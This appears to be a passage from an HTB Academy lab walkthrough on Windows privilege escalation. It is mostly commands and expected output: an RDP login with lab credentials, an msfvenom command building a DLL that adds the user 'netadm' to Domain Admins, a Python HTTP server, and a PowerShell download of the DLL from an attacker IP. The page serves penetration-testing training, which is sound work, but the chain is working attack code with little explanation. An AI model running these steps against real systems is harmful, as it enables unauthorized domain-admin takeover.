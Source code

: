 #### 1. Connect to Target via RDP
```bash
# Example target IP from HTB Academy
xfreerdp /v:10.129.43.42 /u:netadm /p:'HTB_@cademy_stdnt!'

# Expected output:
[16:18:25:879] [4321:4323] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[16:18:25:880] [4321:4323] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[16:18:25:880] [4321:4323] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd
[16:18:25:880] [4321:4323] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr
```

#### 2. Generate Malicious DLL (On Pwnbox/Attack Machine)
```bash
# Generate DLL to add netadm to Domain Admins
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

# Expected output:
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 313 bytes
Final size of dll file: 8704 bytes
Saved as: adduser.dll
```

#### 3. Start HTTP Server for DLL Delivery
```bash
# Start Python HTTP server on Pwnbox
python3 -m http.server 7777

# Expected output:
Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...
```

#### 4. Download DLL to Target (PowerShell)
```powershell
# From RDP session, open PowerShell
# Download adduser.dll using wget
wget "http://10.10.14.80:7777/adduser.dll" -outfile "adduser.dll"

# Verify download
ls

# Expected output:
    Directory: C:\Users\netadm
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        5/19/2021   1:38 PM                Videos
-a----        10/3/2022   9:03 AM           8704 adduser.dll
```
